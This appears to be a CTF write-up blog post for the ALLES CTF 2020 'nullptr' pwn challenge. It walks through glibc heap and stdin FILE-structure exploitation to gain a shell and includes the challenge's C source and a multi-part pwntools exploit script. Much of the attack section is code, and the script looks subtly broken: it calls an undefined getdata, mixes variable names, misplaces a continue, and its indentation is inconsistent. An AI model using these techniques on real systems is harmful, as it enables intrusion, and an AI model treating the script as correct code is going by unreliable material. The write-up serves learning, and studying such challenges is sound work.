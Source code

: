```yaml
---
layout: "post"
title: "nullptr - ALLES CTF 2020"
date: 2020-09-09
---
```



**tl;dr**

+ Overwrite `mmap_threshold` with null and trim top chunk size.
+ Null out last 2 bytes of stdin's `_IO_buf_base` and brute force to get allocation on stdin.
+ Overwrite one of the jump tables with win function to get shell.

<!--more-->

**Challenge Points:** 453
**Solves: ** 4

We had a really great time this weekend with this year's edition of Alles CTF. I spent most of my time working on the challenge nullptr and in this post , I'll be discussing the intended solution for the challenge.

**PS:** We could not solve this during the CTF but the exploit idea is worth sharing.

## Challenge description

To begin with , we'd been provided with a pretty simple c source code which has 2 functionalities.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_me_out_of_this_mess() { execl("/bin/sh", "sh", NULL); }

int main(void) {
    unsigned long addr;
    int menuchoice;
    while (1) {
        printf("[1. view, 2. null, -1. exit]> \n"); fflush(stdout);
        scanf("%d", &menuchoice); getc(stdin);
        switch (menuchoice) {
        case 1:
            printf("view address> \n"); fflush(stdout);
            scanf("%lu", &addr); getc(stdin);
            printf("%p: %p\n", addr, *(void**)addr);
            break;
        case 2:
            printf("nuke address> \n"); fflush(stdout);
            scanf("%lu", &addr); getc(stdin);
            *(void**)addr = NULL;
            printf("ok!\n");
            break;
        case -1:
            printf("bye!\n");
            return 1;
        default:;
        }
    }
    return 0;
}

```

1. The view function prints the content of an address passed , hence we can be assured of all leaks ;).
2. The nuke function nulls out the content of an address passed.

Looks pretty simple doesn't it?

## Getting necessary leaks

Getting all required leaks is nothing but a trivial task.

Initially, we can directly get stack leak by passing any `non-numeric` value to scanf. Let's script it a bit.

```py

from pwn import *
import sys

HOST = 'dwadwda'
PORT = 123
LIBC = ELF("./libc.so.6",checksec = False)
while True:
    if(len(sys.argv)>1):
        io=remote(HOST,PORT)
        context.noptrace=True
    else:
        io=process('./nullptr',env = {"LD_PRELOAD" : "./libc.so.6"})

    reu = lambda a : io.recvuntil(a)
    sla = lambda a,b : io.sendlineafter(a,b)
    sl = lambda a : io.sendline(a)
    rel = lambda : io.recvline()
    sa = lambda a,b : io.sendafter(a,b)
    re = lambda a : io.recv(a)
    s = lambda a : io.send(a)

    def null(addr):
        sla(']> \n','2')
        sla('nuke address> \n',str(addr))

    def malloc(libc):
        base = libc + 0x1ea9b8
        null(base)

    if __name__=="__main__":
        sla(']> \n','1')
        reu('address> \n')
        s(p8(1))
        stack = int(re(14),16)
        libc = getdata(stack-0xd8) - 0x271e3
        code = getdata(stack-0x18) - 0x10ce
        log.info('stack = ' + hex(stack))
        log.info('libc = ' + hex(libc))
        log.info('code = ' + hex(code))
```

## Idea of exploitation

After carefully analyzing scanf's source code, sherl0ck came up with the idea of calling **malloc** again by `nulling` out `IO_buf_base`.

In the depths of scanf ,there resides a function called IO_doallocbuf.

```c
  if (fp->_IO_buf_base == NULL)
    {
      /* Maybe we already have a push back pointer.  */
      if (fp->_IO_save_base != NULL)
	{
	  free (fp->_IO_save_base);
	  fp->_flags &= ~_IO_IN_BACKUP;
	}
      _IO_doallocbuf (fp);
    }

```

The code is actually of the caller function of `_IO_doallocbuf` which is `_IO_new_file_underflow`.

It calls malloc with a fixed size of `blk_sizet` which is by default 0x1000 bytes.

From this point on , we were stuck , we tried nulling out the last 2 bytes of buf base in the hope of getting allocation at tcache structure , from there on we faked a 0x400 size arbitrary chunk in tcache and found another way to call malloc with size of 0x400 from stdout structure.

Well , getting allocation with stdout doesn't actually give us arbitrary write.

## The intended solution

Well , the intended solution is actually leveraging an mmap call from malloc. Let's see how this can be done.

+ Nulling out `mmap_threshold` with triggers a different code path in malloc.
+ Also , trimming top size by writing null misaligned finally calls mmap when malloc is invoked.

Now , all that we have to do is , brute force until an mmap happens near our stdin file structure and from there on , its a game over.

Let's take our script forward.

```py
        buf_base = libc + 0x1ea9b8
        input_buffer = getdata(buf_base)
        TARGET_REGION = libc + 0x1ea000
        TARGET_HOOK_OFFSET = 0xb70
        TARGET_STDIN_OFFSET = 0x980
        _IO_2_1_stdin_ = libc + LIBC.symbols['_IO_2_1_stdin_']
        mmap_threshold_ = libc + 0x1ea280
        MAIN_ARENA_TOP_CHUNK_PTR = libc_base + 0x1eabe0
        top_chunk = getdata(MAIN_ARENA_TOP_CHUNK_PTR + 8)
        _IO_stdfile_0_lock = libc_base + 0x1ed4d0
        __GI__IO_file_jumps = libc_base + 0x1ec4a0
        MASK = 0xffffffffffff0000
        if TARGET_REGION & MASK != TARGET_REGION:
            log.failure("Restart exploit")
            io.close()
        continue
        else:
            break
       #Null out top chunk partially keeping the inuse bit
       #Null out mmap_threshold and next malloc should call mmap
       null(mmap_threshold + 16) 
       null(top_chunk + 8 + 1)

       # malloc will now be mmap!
       # We keep calling mmap from malloc and bruteforce for getting allocation at stdin
       for _ in range(200):
           malloc(libc)
           input_buffer = getdata(_IO_2_1_stdin_ + 8 * 3)
           if (input_buffer & MASK) == TARGET_REGION:
               log.success('Hit')
               break

      
```

Once there's a hit , all that's left is to partially overwrite `IO_buf_base` and get allocation on stdin. Here , after getting allocation on stdin , we intend to overwrite malloc hook to get shell.

```py
        #Now we partially overwrite io buf base of stdin
        null(_IO_2_1_stdin_ + 8*7 - 6)
        _s = TARGET_STDIN_OFFSET
        data = p64(0xfbad2088) + p64(TARGET_REGION)*6 + p64(0)*5 + p64(0) + p8(0) + p64(_IO_stdfile_0_lock) + p32(0) + p64(__GI__IO_file_jumps)
        data = data.ljust(TARGET_HOOK_OFFSET,'x')

        sla(data)
        #overwritten malloc hook
        #call malloc to get shell
        malloc(libc)
        io.interactive()

```

### An alternative approach

We could be all lazy and let brute force do the work. A simpler yet time consuming approach would be to overwrite the last 3 bytes of stdin's `IO_buf_base` and wait for the magic to happen. Eventually , in one of the runs , it would match with binary bss and you get a direct write to GOT table.

## Conclusion

The challenge had really intersting concepts involved and we learnt quite alot. Kudos to the author Mrmaxmeier for the awesome challenge.

Here's the original script of the author - [Link](https://gist.github.com/Mrmaxmeier/830561d4a732b0af24bf29d685a9f74f)

